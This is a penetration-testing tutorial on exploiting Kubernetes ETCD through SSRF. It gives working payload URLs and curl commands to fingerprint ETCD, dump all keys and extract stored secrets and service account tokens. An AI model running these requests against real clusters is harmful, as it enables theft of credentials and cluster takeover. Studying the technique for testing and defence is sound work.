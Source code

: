 ```yaml
---
title: 'Exploit Kubernetes ETCD via SSRF: A Complete Guide'
description: Learn how to exploit Kubernetes ETCD using SSRF to access cluster metadata
  and secrets safely.
keywords:
- Kubernetes ETCD
- SSRF exploitation
- cluster metadata
- sensitive data
- ETCD API
- security risk
- service enumeration
---
```


# Kubernetes ETCD

## Context

This article demonstrates the exploitation of Kubernetes ETCD through Server-Side Request Forgery (SSRF) to extract sensitive cluster metadata and secrets. It assumes you have foundational knowledge of the HTTP protocol, container orchestration concepts, the architecture of ETCD, and SSRF techniques.

## Theory

### ETCD in Kubernetes Cluster Security

ETCD is a critical component of the Kubernetes ecosystem, acting as the distributed key-value store for maintaining the cluster state. It stores crucial information, such as secrets, service accounts, and cluster configurations. Due to its sensitive nature, direct access to ETCD is a significant security risk, as it can expose confidential data to attackers. Unauthorized access to ETCD can lead to the extraction of sensitive information, which can compromise the entire cluster.

### ETCD API Endpoints and Data Exposure

ETCD allows interaction through publicly accessible HTTP APIs, typically available on the local address `127.0.0.1:2379`. These endpoints include operations like querying the version of ETCD (`/version`) and retrieving key-value pairs (`/v2/keys`). A well-known vulnerability model involves exploiting SSRF vulnerabilities to bypass network restrictions, allowing an attacker to access these ETCD endpoints. The attack sequence involves using SSRF to send requests to the ETCD API, where the attacker can enumerate keys and extract secrets.

### Sensitive Data in ETCD

ETCD stores diverse types of sensitive data such as Kubernetes secrets, service account tokens, and the cluster configuration itself. This data is organized as keys within the ETCD store. Normally, access to ETCD is limited to trusted components within the Kubernetes cluster; however, SSRF can be used to circumvent this implicit trust, exposing the data to potential threats from intercepted requests.

## Practice

### Enumerate ETCD Version via SSRF

The initial step in exploiting ETCD is to determine which version of the service is running. This information can provide insights into the service capabilities and potential vulnerabilities.

- **Payload:**

    An SSRF payload is formulated to query the version endpoint of the ETCD service:
    ```http
    http://127.0.0.1:2379/version
    ```

- **Command Execution:**

    Use `curl` to send the SSRF request through a vulnerable application:
    ```bash
    curl -s 'http://<vulnerable-app>/ssrf?url=http://127.0.0.1:2379/version'
    ```

By executing this request, you can identify the ETCD service and its version, which aids in strategizing further exploitation.

### Recursive Key Dump of ETCD via SSRF

After establishing the version, the next step is to enumerate all keys stored within ETCD. This can potentially disclose sensitive data like configuration files and secrets.

- **Payload:**

    The SSRF payload targets recursive listing of all keys:
    ```http
    http://127.0.0.1:2379/v2/keys/?recursive=true
    ```

- **Command Execution:**

    Execute the SSRF request with:
    ```bash
    curl -s 'http://<vulnerable-app>/ssrf?url=http://127.0.0.1:2379/v2/keys/?recursive=true'
    ```

This step can expose Kubernetes secrets, service tokens, and configurations, offering comprehensive insight into the cluster's operational state.

### Extract Specific Kubernetes Secrets from ETCD

Focusing on specific namespaces, such as Kubernetes secrets, can yield critical credentials.

- **Payload:**

    A targeted SSRF payload aims to extract the Kubernetes secrets namespace:
    ```http
    http://127.0.0.1:2379/v2/keys/kubernetes.io/secrets?recursive=true
    ```

- **Command Execution:**

    Use the following curl command to extract secrets:
    ```bash
    curl -s 'http://<vulnerable-app>/ssrf?url=http://127.0.0.1:2379/v2/keys/kubernetes.io/secrets?recursive=true'
    ```

This action results in extracting service account tokens and other sensitive credentials, which could potentially be used for further attacks.

## Tools

- **curl**

By following these steps and understanding the underlying concepts, practitioners can effectively exploit ETCD through SSRF in a controlled, ethical testing environment to understand the risks and improve security posture.